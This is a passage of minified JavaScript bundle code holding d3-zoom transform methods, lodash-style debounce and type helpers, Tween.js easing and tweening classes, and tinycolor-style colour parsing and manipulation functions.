i=t.selection?t.selection():t;i.property("__zoom",tr),t!==i?b(t,n,e,r):i.interrupt().each((function(){w(this,arguments).event(r).start().zoom(null,"function"==typeof n?n.apply(this,arguments):n).end()}))},v.scaleBy=function(t,n,e,r){v.scaleTo(t,(function(){return this.__zoom.k*("function"==typeof n?n.apply(this,arguments):n)}),e,r)},v.scaleTo=function(t,n,e,r){v.transform(t,(function(){var t=i.apply(this,arguments),r=this.__zoom,a=null==e?x(t):"function"==typeof e?e.apply(this,arguments):e,u=r.invert(a),s="function"==typeof n?n.apply(this,arguments):n;return o(m(_(r,s),a,u),t,l)}),e,r)},v.translateBy=function(t,n,e,r){v.transform(t,(function(){return o(this.__zoom.translate("function"==typeof n?n.apply(this,arguments):n,"function"==typeof e?e.apply(this,arguments):e),i.apply(this,arguments),l)}),null,r)},v.translateTo=function(t,n,e,r,a){v.transform(t,(function(){var t=i.apply(this,arguments),a=this.__zoom,u=null==r?x(t):"function"==typeof r?r.apply(this,arguments):r;return o(Ye.translate(u[0],u[1]).scale(a.k).translate("function"==typeof n?-n.apply(this,arguments):-n,"function"==typeof e?-e.apply(this,arguments):-e),t,l)}),r,a)},k.prototype={event:function(t){return t&&(this.sourceEvent=t),this},start:function(){return 1==++this.active&&(this.that.__zooming=this,this.emit("start")),this},zoom:function(t,n){return this.mouse&&"mouse"!==t&&(this.mouse[1]=n.invert(this.mouse[0])),this.touch0&&"touch"!==t&&(this.touch0[1]=n.invert(this.touch0[0])),this.touch1&&"touch"!==t&&(this.touch1[1]=n.invert(this.touch1[0])),this.that.__zoom=n,this.emit("zoom"),this},end:function(){return 0==--this.active&&(delete this.that.__zooming,this.emit("end")),this},emit:function(t){var n=zt(this.that).datum();f.call(t,this.that,new Xe(t,{sourceEvent:this.sourceEvent,target:v,type:t,transform:this.that.__zoom,dispatch:f}),n)}},v.wheelDelta=function(t){return arguments.length?(a="function"==typeof t?t:Ve(+t),v):a},v.filter=function(t){return arguments.length?(r="function"==typeof t?t:Ve(!!t),v):r},v.touchable=function(t){return arguments.length?(u="function"==typeof t?t:Ve(!!t),v):u},v.extent=function(t){return arguments.length?(i="function"==typeof t?t:Ve([[+t[0][0],+t[0][1]],[+t[1][0],+t[1][1]]]),v):i},v.scaleExtent=function(t){return arguments.length?(s[0]=+t[0],s[1]=+t[1],v):[s[0],s[1]]},v.translateExtent=function(t){return arguments.length?(l[0][0]=+t[0][0],l[1][0]=+t[1][0],l[0][1]=+t[0][1],l[1][1]=+t[1][1],v):[[l[0][0],l[0][1]],[l[1][0],l[1][1]]]},v.constrain=function(t){return arguments.length?(o=t,v):o},v.duration=function(t){return arguments.length?(c=+t,v):c},v.interpolate=function(t){return arguments.length?(h=t,v):h},v.on=function(){var t=f.on.apply(f,arguments);return t===f?v:t},v.clickDistance=function(t){return arguments.length?(g=(t=+t)*t,v):Math.sqrt(g)},v.tapDistance=function(t){return arguments.length?(y=+t,v):y},v}We.prototype=Ge.prototype;class or extends Map{constructor(t,n=ur){if(super(),Object.defineProperties(this,{_intern:{value:new Map},_key:{value:n}}),null!=t)for(const[n,e]of t)this.set(n,e)}get(t){return super.get(ar(this,t))}has(t){return super.has(ar(this,t))}set(t,n){return super.set(function({_intern:t,_key:n},e){const r=n(e);return t.has(r)?t.get(r):(t.set(r,e),e)}(this,t),n)}delete(t){return super.delete(function({_intern:t,_key:n},e){const r=n(e);t.has(r)&&(e=t.get(r),t.delete(r));return e}(this,t))}}function ar({_intern:t,_key:n},e){const r=n(e);return t.has(r)?t.get(r):e}function ur(t){return null!==t&&"object"==typeof t?t.valueOf():t}function sr(t,n){let e;if(void 0===n)for(const n of t)null!=n&&(e<n||void 0===e&&n>=n)&&(e=n);else{let r=-1;for(let i of t)null!=(i=n(i,++r,t))&&(e<i||void 0===e&&i>=i)&&(e=i)}return e}function lr(t,n){let e;if(void 0===n)for(const n of t)null!=n&&(e>n||void 0===e&&n>=n)&&(e=n);else{let r=-1;for(let i of t)null!=(i=n(i,++r,t))&&(e>i||void 0===e&&i>=i)&&(e=i)}return e}var cr="object"==typeof global&&global&&global.Object===Object&&global,hr="object"==typeof self&&self&&self.Object===Object&&self,fr=cr||hr||Function("return this")(),dr=fr.Symbol,pr=Object.prototype,gr=pr.hasOwnProperty,yr=pr.toString,vr=dr?dr.toStringTag:void 0;var _r=Object.prototype.toString;var mr="[object Null]",xr="[object Undefined]",br=dr?dr.toStringTag:void 0;function wr(t){return null==t?void 0===t?xr:mr:br&&br in Object(t)?function(t){var n=gr.call(t,vr),e=t[vr];try{t[vr]=void 0;var r=!0}catch(t){}var i=yr.call(t);return r&&(n?t[vr]=e:delete t[vr]),i}(t):function(t){return _r.call(t)}(t)}var kr="[object Symbol]";var Mr=/\s/;var zr=/^\s+/;function Ar(t){return t?t.slice(0,function(t){for(var n=t.length;n--&&Mr.test(t.charAt(n)););return n}(t)+1).replace(zr,""):t}function Sr(t){var n=typeof t;return null!=t&&("object"==n||"function"==n)}var Cr=NaN,Er=/^[-+]0x[0-9a-f]+$/i,Or=/^0b[01]+$/i,Nr=/^0o[0-7]+$/i,Pr=parseInt;function jr(t){if("number"==typeof t)return t;if(function(t){return"symbol"==typeof t||function(t){return null!=t&&"object"==typeof t}(t)&&wr(t)==kr}(t))return Cr;if(Sr(t)){var n="function"==typeof t.valueOf?t.valueOf():t;t=Sr(n)?n+"":n}if("string"!=typeof t)return 0===t?t:+t;t=Ar(t);var e=Or.test(t);return e||Nr.test(t)?Pr(t.slice(2),e?2:8):Er.test(t)?Cr:+t}var Tr=function(){return fr.Date.now()},Rr="Expected a function",Dr=Math.max,Ir=Math.min;function Ur(t,n,e){var r,i,o,a,u,s,l=0,c=!1,h=!1,f=!0;if("function"!=typeof t)throw new TypeError(Rr);function d(n){var e=r,o=i;return r=i=void 0,l=n,a=t.apply(o,e)}function p(t){var e=t-s;return void 0===s||e>=n||e<0||h&&t-l>=o}function g(){var t=Tr();if(p(t))return y(t);u=setTimeout(g,function(t){var e=n-(t-s);return h?Ir(e,o-(t-l)):e}(t))}function y(t){return u=void 0,f&&r?d(t):(r=i=void 0,a)}function v(){var t=Tr(),e=p(t);if(r=arguments,i=this,s=t,e){if(void 0===u)return function(t){return l=t,u=setTimeout(g,n),c?d(t):a}(s);if(h)return clearTimeout(u),u=setTimeout(g,n),d(s)}return void 0===u&&(u=setTimeout(g,n)),a}return n=jr(n)||0,Sr(e)&&(c=!!e.leading,o=(h="maxWait"in e)?Dr(jr(e.maxWait)||0,n):o,f="trailing"in e?!!e.trailing:f),v.cancel=function(){void 0!==u&&clearTimeout(u),l=0,r=s=i=u=void 0},v.flush=function(){return void 0===u?a:y(Tr())},v}var Fr=Object.freeze({Linear:Object.freeze({None:function(t){return t},In:function(t){return this.None(t)},Out:function(t){return this.None(t)},InOut:function(t){return this.None(t)}}),Quadratic:Object.freeze({In:function(t){return t*t},Out:function(t){return t*(2-t)},InOut:function(t){return(t*=2)<1?.5*t*t:-.5*(--t*(t-2)-1)}}),Cubic:Object.freeze({In:function(t){return t*t*t},Out:function(t){return--t*t*t+1},InOut:function(t){return(t*=2)<1?.5*t*t*t:.5*((t-=2)*t*t+2)}}),Quartic:Object.freeze({In:function(t){return t*t*t*t},Out:function(t){return 1- --t*t*t*t},InOut:function(t){return(t*=2)<1?.5*t*t*t*t:-.5*((t-=2)*t*t*t-2)}}),Quintic:Object.freeze({In:function(t){return t*t*t*t*t},Out:function(t){return--t*t*t*t*t+1},InOut:function(t){return(t*=2)<1?.5*t*t*t*t*t:.5*((t-=2)*t*t*t*t+2)}}),Sinusoidal:Object.freeze({In:function(t){return 1-Math.sin((1-t)*Math.PI/2)},Out:function(t){return Math.sin(t*Math.PI/2)},InOut:function(t){return.5*(1-Math.sin(Math.PI*(.5-t)))}}),Exponential:Object.freeze({In:function(t){return 0===t?0:Math.pow(1024,t-1)},Out:function(t){return 1===t?1:1-Math.pow(2,-10*t)},InOut:function(t){return 0===t?0:1===t?1:(t*=2)<1?.5*Math.pow(1024,t-1):.5*(2-Math.pow(2,-10*(t-1)))}}),Circular:Object.freeze({In:function(t){return 1-Math.sqrt(1-t*t)},Out:function(t){return Math.sqrt(1- --t*t)},InOut:function(t){return(t*=2)<1?-.5*(Math.sqrt(1-t*t)-1):.5*(Math.sqrt(1-(t-=2)*t)+1)}}),Elastic:Object.freeze({In:function(t){return 0===t?0:1===t?1:-Math.pow(2,10*(t-1))*Math.sin(5*(t-1.1)*Math.PI)},Out:function(t){return 0===t?0:1===t?1:Math.pow(2,-10*t)*Math.sin(5*(t-.1)*Math.PI)+1},InOut:function(t){return 0===t?0:1===t?1:(t*=2)<1?-.5*Math.pow(2,10*(t-1))*Math.sin(5*(t-1.1)*Math.PI):.5*Math.pow(2,-10*(t-1))*Math.sin(5*(t-1.1)*Math.PI)+1}}),Back:Object.freeze({In:function(t){var n=1.70158;return 1===t?1:t*t*((n+1)*t-n)},Out:function(t){var n=1.70158;return 0===t?0:--t*t*((n+1)*t+n)+1},InOut:function(t){var n=2.5949095;return(t*=2)<1?t*t*((n+1)*t-n)*.5:.5*((t-=2)*t*((n+1)*t+n)+2)}}),Bounce:Object.freeze({In:function(t){return 1-Fr.Bounce.Out(1-t)},Out:function(t){return t<1/2.75?7.5625*t*t:t<2/2.75?7.5625*(t-=1.5/2.75)*t+.75:t<2.5/2.75?7.5625*(t-=2.25/2.75)*t+.9375:7.5625*(t-=2.625/2.75)*t+.984375},InOut:function(t){return t<.5?.5*Fr.Bounce.In(2*t):.5*Fr.Bounce.Out(2*t-1)+.5}}),generatePow:function(t){return void 0===t&&(t=4),t=(t=t<Number.EPSILON?Number.EPSILON:t)>1e4?1e4:t,{In:function(n){return Math.pow(n,t)},Out:function(n){return 1-Math.pow(1-n,t)},InOut:function(n){return n<.5?Math.pow(2*n,t)/2:(1-Math.pow(2-2*n,t))/2+.5}}}}),Lr=function(){return performance.now()},qr=function(){function t(){this._tweens={},this._tweensAddedDuringUpdate={}}return t.prototype.getAll=function(){var t=this;return Object.keys(this._tweens).map((function(n){return t._tweens[n]}))},t.prototype.removeAll=function(){this._tweens={}},t.prototype.add=function(t){this._tweens[t.getId()]=t,this._tweensAddedDuringUpdate[t.getId()]=t},t.prototype.remove=function(t){delete this._tweens[t.getId()],delete this._tweensAddedDuringUpdate[t.getId()]},t.prototype.update=function(t,n){void 0===t&&(t=Lr()),void 0===n&&(n=!1);var e=Object.keys(this._tweens);if(0===e.length)return!1;for(;e.length>0;){this._tweensAddedDuringUpdate={};for(var r=0;r<e.length;r++){var i=this._tweens[e[r]],o=!n;i&&!1===i.update(t,o)&&!n&&delete this._tweens[e[r]]}e=Object.keys(this._tweensAddedDuringUpdate)}return!0},t}(),Br={Linear:function(t,n){var e=t.length-1,r=e*n,i=Math.floor(r),o=Br.Utils.Linear;return n<0?o(t[0],t[1],r):n>1?o(t[e],t[e-1],e-r):o(t[i],t[i+1>e?e:i+1],r-i)},Bezier:function(t,n){for(var e=0,r=t.length-1,i=Math.pow,o=Br.Utils.Bernstein,a=0;a<=r;a++)e+=i(1-n,r-a)*i(n,a)*t[a]*o(r,a);return e},CatmullRom:function(t,n){var e=t.length-1,r=e*n,i=Math.floor(r),o=Br.Utils.CatmullRom;return t[0]===t[e]?(n<0&&(i=Math.floor(r=e*(1+n))),o(t[(i-1+e)%e],t[i],t[(i+1)%e],t[(i+2)%e],r-i)):n<0?t[0]-(o(t[0],t[0],t[1],t[1],-r)-t[0]):n>1?t[e]-(o(t[e],t[e],t[e-1],t[e-1],r-e)-t[e]):o(t[i?i-1:0],t[i],t[e<i+1?e:i+1],t[e<i+2?e:i+2],r-i)},Utils:{Linear:function(t,n,e){return(n-t)*e+t},Bernstein:function(t,n){var e=Br.Utils.Factorial;return e(t)/e(n)/e(t-n)},Factorial:function(){var t=[1];return function(n){var e=1;if(t[n])return t[n];for(var r=n;r>1;r--)e*=r;return t[n]=e,e}}(),CatmullRom:function(t,n,e,r,i){var o=.5*(e-t),a=.5*(r-n),u=i*i;return(2*n-2*e+o+a)*(i*u)+(-3*n+3*e-2*o-a)*u+o*i+n}}},$r=function(){function t(){}return t.nextId=function(){return t._nextId++},t._nextId=0,t}(),Hr=new qr,Vr=function(){function t(t,n){void 0===n&&(n=Hr),this._object=t,this._group=n,this._isPaused=!1,this._pauseStart=0,this._valuesStart={},this._valuesEnd={},this._valuesStartRepeat={},this._duration=1e3,this._isDynamic=!1,this._initialRepeat=0,this._repeat=0,this._yoyo=!1,this._isPlaying=!1,this._reversed=!1,this._delayTime=0,this._startTime=0,this._easingFunction=Fr.Linear.None,this._interpolationFunction=Br.Linear,this._chainedTweens=[],this._onStartCallbackFired=!1,this._onEveryStartCallbackFired=!1,this._id=$r.nextId(),this._isChainStopped=!1,this._propertiesAreSetUp=!1,this._goToEnd=!1}return t.prototype.getId=function(){return this._id},t.prototype.isPlaying=function(){return this._isPlaying},t.prototype.isPaused=function(){return this._isPaused},t.prototype.getDuration=function(){return this._duration},t.prototype.to=function(t,n){if(void 0===n&&(n=1e3),this._isPlaying)throw new Error("Can not call Tween.to() while Tween is already started or paused. Stop the Tween first.");return this._valuesEnd=t,this._propertiesAreSetUp=!1,this._duration=n<0?0:n,this},t.prototype.duration=function(t){return void 0===t&&(t=1e3),this._duration=t<0?0:t,this},t.prototype.dynamic=function(t){return void 0===t&&(t=!1),this._isDynamic=t,this},t.prototype.start=function(t,n){if(void 0===t&&(t=Lr()),void 0===n&&(n=!1),this._isPlaying)return this;if(this._group&&this._group.add(this),this._repeat=this._initialRepeat,this._reversed)for(var e in this._reversed=!1,this._valuesStartRepeat)this._swapEndStartRepeatValues(e),this._valuesStart[e]=this._valuesStartRepeat[e];if(this._isPlaying=!0,this._isPaused=!1,this._onStartCallbackFired=!1,this._onEveryStartCallbackFired=!1,this._isChainStopped=!1,this._startTime=t,this._startTime+=this._delayTime,!this._propertiesAreSetUp||n){if(this._propertiesAreSetUp=!0,!this._isDynamic){var r={};for(var i in this._valuesEnd)r[i]=this._valuesEnd[i];this._valuesEnd=r}this._setupProperties(this._object,this._valuesStart,this._valuesEnd,this._valuesStartRepeat,n)}return this},t.prototype.startFromCurrentValues=function(t){return this.start(t,!0)},t.prototype._setupProperties=function(t,n,e,r,i){for(var o in e){var a=t[o],u=Array.isArray(a),s=u?"array":typeof a,l=!u&&Array.isArray(e[o]);if("undefined"!==s&&"function"!==s){if(l){if(0===(y=e[o]).length)continue;for(var c=[a],h=0,f=y.length;h<f;h+=1){var d=this._handleRelativeValue(a,y[h]);if(isNaN(d)){l=!1,console.warn("Found invalid interpolation list. Skipping.");break}c.push(d)}l&&(e[o]=c)}if("object"!==s&&!u||!a||l)(void 0===n[o]||i)&&(n[o]=a),u||(n[o]*=1),r[o]=l?e[o].slice().reverse():n[o]||0;else{n[o]=u?[]:{};var p=a;for(var g in p)n[o][g]=p[g];r[o]=u?[]:{};var y=e[o];if(!this._isDynamic){var v={};for(var g in y)v[g]=y[g];e[o]=y=v}this._setupProperties(p,n[o],y,r[o],i)}}}},t.prototype.stop=function(){return this._isChainStopped||(this._isChainStopped=!0,this.stopChainedTweens()),this._isPlaying?(this._group&&this._group.remove(this),this._isPlaying=!1,this._isPaused=!1,this._onStopCallback&&this._onStopCallback(this._object),this):this},t.prototype.end=function(){return this._goToEnd=!0,this.update(1/0),this},t.prototype.pause=function(t){return void 0===t&&(t=Lr()),this._isPaused||!this._isPlaying||(this._isPaused=!0,this._pauseStart=t,this._group&&this._group.remove(this)),this},t.prototype.resume=function(t){return void 0===t&&(t=Lr()),this._isPaused&&this._isPlaying?(this._isPaused=!1,this._startTime+=t-this._pauseStart,this._pauseStart=0,this._group&&this._group.add(this),this):this},t.prototype.stopChainedTweens=function(){for(var t=0,n=this._chainedTweens.length;t<n;t++)this._chainedTweens[t].stop();return this},t.prototype.group=function(t){return void 0===t&&(t=Hr),this._group=t,this},t.prototype.delay=function(t){return void 0===t&&(t=0),this._delayTime=t,this},t.prototype.repeat=function(t){return void 0===t&&(t=0),this._initialRepeat=t,this._repeat=t,this},t.prototype.repeatDelay=function(t){return this._repeatDelayTime=t,this},t.prototype.yoyo=function(t){return void 0===t&&(t=!1),this._yoyo=t,this},t.prototype.easing=function(t){return void 0===t&&(t=Fr.Linear.None),this._easingFunction=t,this},t.prototype.interpolation=function(t){return void 0===t&&(t=Br.Linear),this._interpolationFunction=t,this},t.prototype.chain=function(){for(var t=[],n=0;n<arguments.length;n++)t[n]=arguments[n];return this._chainedTweens=t,this},t.prototype.onStart=function(t){return this._onStartCallback=t,this},t.prototype.onEveryStart=function(t){return this._onEveryStartCallback=t,this},t.prototype.onUpdate=function(t){return this._onUpdateCallback=t,this},t.prototype.onRepeat=function(t){return this._onRepeatCallback=t,this},t.prototype.onComplete=function(t){return this._onCompleteCallback=t,this},t.prototype.onStop=function(t){return this._onStopCallback=t,this},t.prototype.update=function(t,n){var e,r,i=this;if(void 0===t&&(t=Lr()),void 0===n&&(n=!0),this._isPaused)return!0;var o=this._startTime+this._duration;if(!this._goToEnd&&!this._isPlaying){if(t>o)return!1;n&&this.start(t,!0)}if(this._goToEnd=!1,t<this._startTime)return!0;!1===this._onStartCallbackFired&&(this._onStartCallback&&this._onStartCallback(this._object),this._onStartCallbackFired=!0),!1===this._onEveryStartCallbackFired&&(this._onEveryStartCallback&&this._onEveryStartCallback(this._object),this._onEveryStartCallbackFired=!0);var a=t-this._startTime,u=this._duration+(null!==(e=this._repeatDelayTime)&&void 0!==e?e:this._delayTime),s=this._duration+this._repeat*u,l=function(){if(0===i._duration)return 1;if(a>s)return 1;var t=Math.trunc(a/u),n=a-t*u,e=Math.min(n/i._duration,1);return 0===e&&a===i._duration?1:e}(),c=this._easingFunction(l);if(this._updateProperties(this._object,this._valuesStart,this._valuesEnd,c),this._onUpdateCallback&&this._onUpdateCallback(this._object,l),0===this._duration||a>=this._duration){if(this._repeat>0){var h=Math.min(Math.trunc((a-this._duration)/u)+1,this._repeat);for(r in isFinite(this._repeat)&&(this._repeat-=h),this._valuesStartRepeat)this._yoyo||"string"!=typeof this._valuesEnd[r]||(this._valuesStartRepeat[r]=this._valuesStartRepeat[r]+parseFloat(this._valuesEnd[r])),this._yoyo&&this._swapEndStartRepeatValues(r),this._valuesStart[r]=this._valuesStartRepeat[r];return this._yoyo&&(this._reversed=!this._reversed),this._startTime+=u*h,this._onRepeatCallback&&this._onRepeatCallback(this._object),this._onEveryStartCallbackFired=!1,!0}this._onCompleteCallback&&this._onCompleteCallback(this._object);for(var f=0,d=this._chainedTweens.length;f<d;f++)this._chainedTweens[f].start(this._startTime+this._duration,!1);return this._isPlaying=!1,!1}return!0},t.prototype._updateProperties=function(t,n,e,r){for(var i in e)if(void 0!==n[i]){var o=n[i]||0,a=e[i],u=Array.isArray(t[i]),s=Array.isArray(a);!u&&s?t[i]=this._interpolationFunction(a,r):"object"==typeof a&&a?this._updateProperties(t[i],o,a,r):"number"==typeof(a=this._handleRelativeValue(o,a))&&(t[i]=o+(a-o)*r)}},t.prototype._handleRelativeValue=function(t,n){return"string"!=typeof n?n:"+"===n.charAt(0)||"-"===n.charAt(0)?t+parseFloat(n):parseFloat(n)},t.prototype._swapEndStartRepeatValues=function(t){var n=this._valuesStartRepeat[t],e=this._valuesEnd[t];this._valuesStartRepeat[t]="string"==typeof e?this._valuesStartRepeat[t]+parseFloat(e):this._valuesEnd[t],this._valuesEnd[t]=n},t}(),Xr=Hr;Xr.getAll.bind(Xr),Xr.removeAll.bind(Xr),Xr.add.bind(Xr),Xr.remove.bind(Xr);var Gr=Xr.update.bind(Xr);function Yr(t,n){for(var e=0;e<n.length;e++){var r=n[e];r.enumerable=r.enumerable||!1,r.configurable=!0,"value"in r&&(r.writable=!0),Object.defineProperty(t,(i=r.key,o=void 0,"symbol"==typeof(o=function(t,n){if("object"!=typeof t||null===t)return t;var e=t[Symbol.toPrimitive];if(void 0!==e){var r=e.call(t,n||"default");if("object"!=typeof r)return r;throw new TypeError("@@toPrimitive must return a primitive value.")}return("string"===n?String:Number)(t)}(i,"string"))?o:String(o)),r)}var i,o}function Wr(t,n,e){return n&&Yr(t.prototype,n),e&&Yr(t,e),Object.defineProperty(t,"prototype",{writable:!1}),t}function Zr(t,n){return function(t){if(Array.isArray(t))return t}(t)||function(t,n){var e=null==t?null:"undefined"!=typeof Symbol&&t[Symbol.iterator]||t["@@iterator"];if(null!=e){var r,i,o,a,u=[],s=!0,l=!1;try{if(o=(e=e.call(t)).next,0===n){if(Object(e)!==e)return;s=!1}else for(;!(s=(r=o.call(e)).done)&&(u.push(r.value),u.length!==n);s=!0);}catch(t){l=!0,i=t}finally{try{if(!s&&null!=e.return&&(a=e.return(),Object(a)!==a))return}finally{if(l)throw i}}return u}}(t,n)||function(t,n){if(!t)return;if("string"==typeof t)return Qr(t,n);var e=Object.prototype.toString.call(t).slice(8,-1);"Object"===e&&t.constructor&&(e=t.constructor.name);if("Map"===e||"Set"===e)return Array.from(t);if("Arguments"===e||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(e))return Qr(t,n)}(t,n)||function(){throw new TypeError("Invalid attempt to destructure non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function Qr(t,n){(null==n||n>t.length)&&(n=t.length);for(var e=0,r=new Array(n);e<n;e++)r[e]=t[e];return r}var Kr=Wr((function t(n,e){var r=e.default,i=void 0===r?null:r,o=e.triggerUpdate,a=void 0===o||o,u=e.onChange,s=void 0===u?function(t,n){}:u;!function(t,n){if(!(t instanceof n))throw new TypeError("Cannot call a class as a function")}(this,t),this.name=n,this.defaultVal=i,this.triggerUpdate=a,this.onChange=s}));function Jr(t){var n=t.stateInit,e=void 0===n?function(){return{}}:n,r=t.props,i=void 0===r?{}:r,o=t.methods,a=void 0===o?{}:o,u=t.aliases,s=void 0===u?{}:u,l=t.init,c=void 0===l?function(){}:l,h=t.update,f=void 0===h?function(){}:h,d=Object.keys(i).map((function(t){return new Kr(t,i[t])}));return function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:{},n=Object.assign({},e instanceof Function?e(t):e,{initialised:!1}),r={};function i(n){return o(n,t),u(),i}var o=function(t,e){c.call(i,t,n,e),n.initialised=!0},u=Ur((function(){n.initialised&&(f.call(i,n,r),r={})}),1);return d.forEach((function(t){i[t.name]=function(t){var e=t.name,o=t.triggerUpdate,a=void 0!==o&&o,s=t.onChange,l=void 0===s?function(t,n){}:s,c=t.defaultVal,h=void 0===c?null:c;return function(t){var o=n[e];if(!arguments.length)return o;var s=void 0===t?h:t;return n[e]=s,l.call(i,s,n,o),!r.hasOwnProperty(e)&&(r[e]=o),a&&u(),i}}(t)})),Object.keys(a).forEach((function(t){i[t]=function(){for(var e,r=arguments.length,o=new Array(r),u=0;u<r;u++)o[u]=arguments[u];return(e=a[t]).call.apply(e,[i,n].concat(o))}})),Object.entries(s).forEach((function(t){var n=Zr(t,2),e=n[0],r=n[1];return i[e]=i[r]})),i.resetProps=function(){return d.forEach((function(t){i[t.name](t.defaultVal)})),i},i.resetProps(),n._rerender=u,i}}var ti=function(t){return"function"==typeof t?t:"string"==typeof t?function(n){return n[t]}:function(n){return t}};function ni(t){return ni="function"==typeof Symbol&&"symbol"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&"function"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?"symbol":typeof t},ni(t)}var ei=/^\s+/,ri=/\s+$/;function ii(t,n){if(n=n||{},(t=t||"")instanceof ii)return t;if(!(this instanceof ii))return new ii(t,n);var e=function(t){var n={r:0,g:0,b:0},e=1,r=null,i=null,o=null,a=!1,u=!1;"string"==typeof t&&(t=function(t){t=t.replace(ei,"").replace(ri,"").toLowerCase();var n,e=!1;if(bi[t])t=bi[t],e=!0;else if("transparent"==t)return{r:0,g:0,b:0,a:0,format:"name"};if(n=Ti.rgb.exec(t))return{r:n[1],g:n[2],b:n[3]};if(n=Ti.rgba.exec(t))return{r:n[1],g:n[2],b:n[3],a:n[4]};if(n=Ti.hsl.exec(t))return{h:n[1],s:n[2],l:n[3]};if(n=Ti.hsla.exec(t))return{h:n[1],s:n[2],l:n[3],a:n[4]};if(n=Ti.hsv.exec(t))return{h:n[1],s:n[2],v:n[3]};if(n=Ti.hsva.exec(t))return{h:n[1],s:n[2],v:n[3],a:n[4]};if(n=Ti.hex8.exec(t))return{r:Ai(n[1]),g:Ai(n[2]),b:Ai(n[3]),a:Oi(n[4]),format:e?"name":"hex8"};if(n=Ti.hex6.exec(t))return{r:Ai(n[1]),g:Ai(n[2]),b:Ai(n[3]),format:e?"name":"hex"};if(n=Ti.hex4.exec(t))return{r:Ai(n[1]+""+n[1]),g:Ai(n[2]+""+n[2]),b:Ai(n[3]+""+n[3]),a:Oi(n[4]+""+n[4]),format:e?"name":"hex8"};if(n=Ti.hex3.exec(t))return{r:Ai(n[1]+""+n[1]),g:Ai(n[2]+""+n[2]),b:Ai(n[3]+""+n[3]),format:e?"name":"hex"};return!1}(t));"object"==ni(t)&&(Ri(t.r)&&Ri(t.g)&&Ri(t.b)?(s=t.r,l=t.g,c=t.b,n={r:255*Mi(s,255),g:255*Mi(l,255),b:255*Mi(c,255)},a=!0,u="%"===String(t.r).substr(-1)?"prgb":"rgb"):Ri(t.h)&&Ri(t.s)&&Ri(t.v)?(r=Ci(t.s),i=Ci(t.v),n=function(t,n,e){t=6*Mi(t,360),n=Mi(n,100),e=Mi(e,100);var r=Math.floor(t),i=t-r,o=e*(1-n),a=e*(1-i*n),u=e*(1-(1-i)*n),s=r%6,l=[e,a,o,o,u,e][s],c=[u,e,e,a,o,o][s],h=[o,o,u,e,e,a][s];return{r:255*l,g:255*c,b:255*h}}(t.h,r,i),a=!0,u="hsv"):Ri(t.h)&&Ri(t.s)&&Ri(t.l)&&(r=Ci(t.s),o=Ci(t.l),n=function(t,n,e){var r,i,o;function a(t,n,e){return e<0&&(e+=1),e>1&&(e-=1),e<1/6?t+6*(n-t)*e:e<.5?n:e<2/3?t+(n-t)*(2/3-e)*6:t}if(t=Mi(t,360),n=Mi(n,100),e=Mi(e,100),0===n)r=i=o=e;else{var u=e<.5?e*(1+n):e+n-e*n,s=2*e-u;r=a(s,u,t+1/3),i=a(s,u,t),o=a(s,u,t-1/3)}return{r:255*r,g:255*i,b:255*o}}(t.h,r,o),a=!0,u="hsl"),t.hasOwnProperty("a")&&(e=t.a));var s,l,c;return e=ki(e),{ok:a,format:t.format||u,r:Math.min(255,Math.max(n.r,0)),g:Math.min(255,Math.max(n.g,0)),b:Math.min(255,Math.max(n.b,0)),a:e}}(t);this._originalInput=t,this._r=e.r,this._g=e.g,this._b=e.b,this._a=e.a,this._roundA=Math.round(100*this._a)/100,this._format=n.format||e.format,this._gradientType=n.gradientType,this._r<1&&(this._r=Math.round(this._r)),this._g<1&&(this._g=Math.round(this._g)),this._b<1&&(this._b=Math.round(this._b)),this._ok=e.ok}function oi(t,n,e){t=Mi(t,255),n=Mi(n,255),e=Mi(e,255);var r,i,o=Math.max(t,n,e),a=Math.min(t,n,e),u=(o+a)/2;if(o==a)r=i=0;else{var s=o-a;switch(i=u>.5?s/(2-o-a):s/(o+a),o){case t:r=(n-e)/s+(n<e?6:0);break;case n:r=(e-t)/s+2;break;case e:r=(t-n)/s+4}r/=6}return{h:r,s:i,l:u}}function ai(t,n,e){t=Mi(t,255),n=Mi(n,255),e=Mi(e,255);var r,i,o=Math.max(t,n,e),a=Math.min(t,n,e),u=o,s=o-a;if(i=0===o?0:s/o,o==a)r=0;else{switch(o){case t:r=(n-e)/s+(n<e?6:0);break;case n:r=(e-t)/s+2;break;case e:r=(t-n)/s+4}r/=6}return{h:r,s:i,v:u}}function ui(t,n,e,r){var i=[Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16))];return r&&i[0].charAt(0)==i[0].charAt(1)&&i[1].charAt(0)==i[1].charAt(1)&&i[2].charAt(0)==i[2].charAt(1)?i[0].charAt(0)+i[1].charAt(0)+i[2].charAt(0):i.join("")}function si(t,n,e,r){return[Si(Ei(r)),Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16))].join("")}function li(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.s-=n/100,e.s=zi(e.s),ii(e)}function ci(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.s+=n/100,e.s=zi(e.s),ii(e)}function hi(t){return ii(t).desaturate(100)}function fi(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.l+=n/100,e.l=zi(e.l),ii(e)}function di(t,n){n=0===n?0:n||10;var e=ii(t).toRgb();return e.r=Math.max(0,Math.min(255,e.r-Math.round(-n/100*255))),e.g=Math.max(0,Math.min(255,e.g-Math.round(-n/100*255))),e.b=Math.max(0,Math.min(255,e.b-Math.round(-n/100*255))),ii(e)}function pi(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.l-=n/100,e.l=zi(e.l),ii(e)}function gi(t,n){var e=ii(t).toHsl(),r=(e.h+n)%360;return e.h=r<0?360+r:r,ii(e)}function yi(t){var n=ii(t).toHsl();return n.h=(n.h+180)%360,ii(n)}function vi(t,n){if(isNaN(n)||n<=0)throw new Error("Argument to polyad must be a positive number");for(var e=ii(t).toHsl(),r=[ii(t)],i=360/n,o=1;o<n;o++)r.push(ii({h:(e.h+o*i)%360,s:e.s,l:e.l}));return r}function _i(t){var n=ii(t).toHsl(),e=n.h;return[ii(t),ii({h:(e+72)%360,s:n.s,l:n.l}),ii({h:(e+216)%360,s:n.s,l:n.l})]}function mi(t,n,e){n=n||6,e=e||30;var 